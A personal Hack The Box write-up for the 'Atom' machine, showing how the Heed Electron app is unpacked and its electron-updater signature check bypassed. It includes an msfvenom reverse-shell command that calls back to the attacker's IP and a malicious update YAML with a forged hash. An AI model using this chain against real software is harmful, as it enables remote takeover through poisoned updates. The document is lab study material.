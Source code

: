 ### Decompile heed setup


![[Pasted image 20211219042215.png]]

![[Pasted image 20211219042256.png]]

![[Pasted image 20211219145834.png]]

![[Pasted image 20211219150021.png]]


* To extract asar file need install asar extractor, using npm
```bash
$ sudo npm -g install asar
```

* Listing all files in app.asar
```bash
$ asar l app.asar                                                                     
/createNote.html                                                                               
/main.js                                                                                       
/package.json                                                                                  
/version.html                                                                                  
/icons                                                                                         
/icons/ico.png                                                                                 
/node_modules 
... [snip] ...
```

* Extracting files  of app.asar
```bash
$ asar e app.asar $(pwd)
┌─[us-vip-13]─[10.10.14.21]─[dix@motoko]─[~/htb/atom/web/heed/app/resources/app]
└──╼ [??]$ ls
app.asar  createNote.html  icons  main.js  node_modules  package.json  version.html

```

* Main.js use library "election-updater"
```js
$ cat main.js                                                                                                                                                                        
const {app, BrowserWindow, Menu, protocol, ipcMain} = require('electron');                                                                                                                    
const log = require('electron-log');                                                                                                                                                          
const {autoUpdater} = require("electron-updater");                                                                                                                                            
const path = require('path'); 
```

* Search on google for "electron builder exploit" leads to this exploit
 https://blog.doyensec.com/2020/02/24/electron-updater-update-signature-bypass.html
 ![[Pasted image 20211219153425.png]]
 
 yml malicous update
 ![[Pasted image 20211219153809.png]]
 
 ``` bash
version: 1.2.3
files:
  - url: v’ulnerable-app-setup-1.2.3.exe
  sha512: GIh9UnKyCaPQ7ccX0MDL10UxPAAZ[...]tkYPEvMxDWgNkb8tPCNZLTbKWcDEOJzfA==
  size: 44653912
path: v'ulnerable-app-1.2.3.exe
sha512: GIh9UnKyCaPQ7ccX0MDL10UxPAAZr1[...]ZrR5X1kb8tPCNZLTbKWcDEOJzfA==
releaseDate: '2019-11-20T11:17:02.627Z'
```

* Create a reverse shell with msfvenom 
```bash
$ msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.10.14.21 LPORT=9001 -f exe -o rev.exe
```

Take the sha512 and base64 of the rev.exe
```
$ sha512sum rev.exe 
efdc6542fef36585a7e5ab5af462bb50e3b07adb2af607abe0bbf024e42cabf474f47833527019a20295a0483b116a2e6025cd735b6fb549e244d156402d311e  rev.exe
┌─[us-vip-13]─[10.10.14.21]─[dix@motoko]─[~/htb/atom/exploit]
└──╼ [??]$ sha512sum rev.exe | awk '{print $1}'
efdc6542fef36585a7e5ab5af462bb50e3b07adb2af607abe0bbf024e42cabf474f47833527019a20295a0483b116a2e6025cd735b6fb549e244d156402d311e
┌─[us-vip-13]─[10.10.14.21]─[dix@motoko]─[~/htb/atom/exploit]
└──╼ [??]$ sha512sum rev.exe | awk '{print $1}' | xxd -r -p
eBeZbPz*$,tx3RpH;j.`%s[oIDV@-1┌─[us-vip-13]─[10.10.14.21]─[dix@motoko]─[~/htb/atom/exploit]
└──╼ [??]$ sha512sum rev.exe | awk '{print $1}' | xxd -r -p | base64 -w 0
79xlQv7zZYWn5ata9GK7UOOwetsq9ger4LvwJOQsq/R09HgzUnAZogKVoEg7EWouYCXNc1tvtUniRNFWQC0xHg==┌─[us-vip-13]─[10.10.14.21]─[dix@motoko]─[~/htb/atom/exploit]
└──╼ [??]$
```

* When see base64 of a hashes, normally is a base64 of the data hash
![[Pasted image 20211219162958.png]]


* yml with the rev.exe
```
version: 1.33.7
files:
  - url: r'ev.exe
    sha512: 79xlQv7zZYWn5ata9GK7UOOwetsq9ger4LvwJOQsq/R09HgzUnAZogKVoEg7EWouYCXNc1tvtUniRNFWQC0xHg==
    size: 7168
path: r'ev.exe
sha512: 79xlQv7zZYWn5ata9GK7UOOwetsq9ger4LvwJOQsq/R09HgzUnAZogKVoEg7EWouYCXNc1tvtUniRNFWQC0xHg==
releaseDate: '2021-12-19T11:17:02.627Z'

```

